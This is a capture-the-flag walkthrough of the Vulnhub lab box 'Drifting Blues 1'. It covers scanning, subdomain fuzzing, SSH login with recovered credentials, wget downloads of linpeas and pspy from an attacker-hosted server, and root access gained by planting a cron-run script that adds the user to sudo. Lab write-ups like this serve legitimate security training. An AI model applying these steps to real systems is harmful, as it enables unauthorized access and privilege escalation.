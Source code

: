 ```yaml
---
layout: post
title: "Drifting Blues 1"
date: 2021-05-15
ctf: true
excerpt: "Walkthrough for Drifting Blues 1 on Vulnhub"
tags: [DNS enumeration, website enumeration, crontab]
comments: false
---
```


# Drifting Blues 1

Drifting Blues is the first in a series of 9 boxes on [Vulnhub](https://www.vulnhub.com/series/driftingblues,424/).

<details><summary><strong>User Hints</strong></summary>
<ul>
    <li>Have you looked at the website's source code?
    <li>Searching for the word listed over and over in the note will help you decode it.
    <li>What can you do to enumerate subdomains on a website?
    <li>What file is used to prevent crawling of websites? Try this out on the uncovered subdomain.
</ul>
</details>

<details><summary><strong>Root Hints</strong></summary>
<ul>
    <li>What tool can you use to enumerate processes running on this system?
    <li>Are there any processes running on this system that can be abused?
</ul>
</details>

## Walkthrough

<details><summary><strong>Full Walkthrough</strong></summary>
First, let's find the IP address of the host by utilizing:

**`netdiscover -i eth0`** 

from our Kali host. After a few moments, you should be able to uncover the IP of our target system.

![Drifting Blues 1 netdiscover](/assets/img/driftingblues-1-1.png)

Once you have discovered the IP, let's enumerate this host to determine what ports/services are open/running. To do this, let's run:

**`threader3000`**

and enter the IP uncovered by netdiscover when prompted:



![Drifting Blues 1 threader3000](/assets/img/driftingblues-1-2.png)

Once it has completed, let it run it's recommended nmap scan:

![Drifting Blues 1 nmap](/assets/img/driftingblues-1-3.png)

It appears that we have SSH and an web server running on this box. Let's first take a look at the web server and open it up in a browser:

![Drifting Blues 1 website](/assets/img/driftingblues-1-4.png)

Next, I ran:

**`python3 dirsearch.py -u http://<target ip>`**

to attempt to find hidden directories/files, but nothing showed up:

![Drifting Blues 1 dirsearch](/assets/img/driftingblues-1-5.png)

Next, I looked at the source code on the main page of the website:

![Drifting Blues 1 source code](/assets/img/driftingblues-1-6.png)

It appears that this comment is base64 encoded, let's decode it to see what it reveals (I utilized [CyberChef](http://gchq.github.io/CyberChef/) for this:

![Drifting Blues 1 base64 decode](/assets/img/driftingblues-1-7.png)

Next, I navigated to the file on the website decoded above and was presented with the following:

![Drifting Blues 1 Ook](/assets/img/driftingblues-1-8.png)

It appears to be some sort of encoding. I did a bit of research and came across the following [site](https://www.splitbrain.org/_static/ook/) to decode this:

![Drifting Blues 1 Ook Decoder](/assets/img/driftingblues-1-9.png)

I then copied/pasted the text from the text file and decoded it, where I saw the following message:

![Drifting Blues 1 Ook decoded message](/assets/img/driftingblues-1-10.png)

This mentions a secret location that needs to be added to a host file. Let's search around and see if we can find the domain name on the website somewhere:

![Drifting Blues 1 website review](/assets/img/driftingblues-1-11.png)

After looking at the pages on the website, there's a email listed with a domain name of **driftingblues.box**. Let's add that to our host file on our attacker box with:

**`sudo /etc/hosts`**

![Drifting Blues 1 hosts file](/assets/img/driftingblues-1-12.png)

Next, let's navigate to http://driftingblues.box in our browser to confirm it works as expected:

![Drifting Blues 1 website](/assets/img/driftingblues-1-13.png)

It does, let's attempt to enumerate subdomains with wfuzz. The command to use is as follows:

**`wfuzz -c -Z -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://driftingblues.box"  -H "Host: FUZZ.driftingblues.box" -t 50`**

This will attempt to fuzz subdomains using the supplied list. We receive several results as shown below:

![Drifting Blues 1 wfuzz 1](/assets/img/driftingblues-1-14.png)

It appears that most of these redirect to the main site (which is 570 words, 7710 characters). Let's exclude these by using the --hw flag which acts as a filter to filter out the number of words supplied (in this case, 570)

**`wfuzz -c -Z -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://driftingblues.box"  -H "Host: FUZZ.driftingblues.box" -t 50 -hw 570`**

This leaves us with one subdomain: **test**

![Drifting Blues 1 wfuzz 2](/assets/img/driftingblues-1-15.png)

Let's add **test.driftingblues.box** to our hosts file by running:

**`nano /etc/hosts`**

![Drifting Blues 1 /etc/hosts test subdomain](/assets/img/driftingblues-1-16.png)

Next, let's navigate to **http://test.driftingblues.box**

![Drifting Blues 1 test site](/assets/img/driftingblues-1-17.png)

It appears this is a test site that is currently being built. Let's run:

**`python3 dirsearch.py -u http://test.driftingblues.box`**

![Drifting Blues 1 dirsearch test subdomain](/assets/img/driftingblues-1-18.png)

We will see that there is a robots.txt file listed for this subdomain. Let's visit it in our browser:

![Drifting Blues 1 robots.txt](/assets/img/driftingblues-1-19.png)

Let's look at the **/ssh_cred.txt** file:

![Drifting Blues 1 ssh_cred.txt](/assets/img/driftingblues-1-20.png)

The username was a guess on my part, as we knew we had sheryl, eric, and db as users based on the notes uncovered so far. The user ended up being eric, and after a few attempts, we were able to get logged in with **1mw4ckyyucky6** as the password:

![driftingblues-1-21](/assets/img/driftingblues-1-21.png)

From here, we can run:

**`cat user.txt`** 

to uncover the user flag.

![Drifting Blues 1 user.txt](/assets/img/driftingblues-1-22.png)

Next, let's do some enumeration and see what we can do to escalate our privileges to root. On our attacker host, let's server up an http server in python with:

**`python3 -m http.server`**

![Drifting Blues 1 python http server](/assets/img/driftingblues-1-23.png)

On our victim box, let's navigate to the tmp directory with:

**`cd tmp`**

followed by:

**`wget http://<attacker ip>:8000/linpeas.sh`** 

This will download the linpeas.sh script that is well known for it's enumeration capabilities.

Once downloaded, let's run:

**`chmod +x linpeas.sh`**

so the script can be executed.

![Drifting Blues 1 wget](/assets/img/driftingblues-1-24.png)

Next, let's run the script with:

**`./linpeas.sh`**

![Drifting Blues 1 linpeas.sh](/assets/img/driftingblues-1-25.png)

It appears that the path may be abused, but before I went down that route, I decided to download pspy64 to have it enumerate processes that are running. To download this and make it executable, I ran:

**`wget http://<attacker ip>:8000/pspy64`**

on the victim host followed by:

**`chmod +x pspy64`**

to make it executable.

![Drifting Blues 1 wget2](/assets/img/driftingblues-1-26.png)

Next, I ran pspy64 with:

**`./pspy64`**

![Drifting Blues 1 pspy](/assets/img/driftingblues-1-27.png)

After a few moments, it showed me that **/tmp/emergency** was being ran with sudo privileges every minute. I navigated to the /tmp directory with:

**`cd /tmp`** 

and the emergency file was not present. I then ran:

**`nano emergency`**

and added in

**`sudo usermod -aG sudo eric`**

to add eric to the list of sudo users:

![Drifting Blues 1 emergency file](/assets/img/driftingblues-1-28.png)

Next, after saving this file, I made it executable with:

**`chmod +x emergency`**

![Drifting Blues 1 chmod emergency](/assets/img/driftingblues-1-29.png)

Next, I waited a couple of minutes (as this script runs every minute), and then used:

**`sudo su`**

to escalate my privileges to root. I then ran the following commands:

**`**cd /root`****

**`ls`**

**`cat root.txt`**

![Drifting Blues 1 root](/assets/img/driftingblues-1-30.png)

That's it! After finding the root flag we've completed this box.

</details>
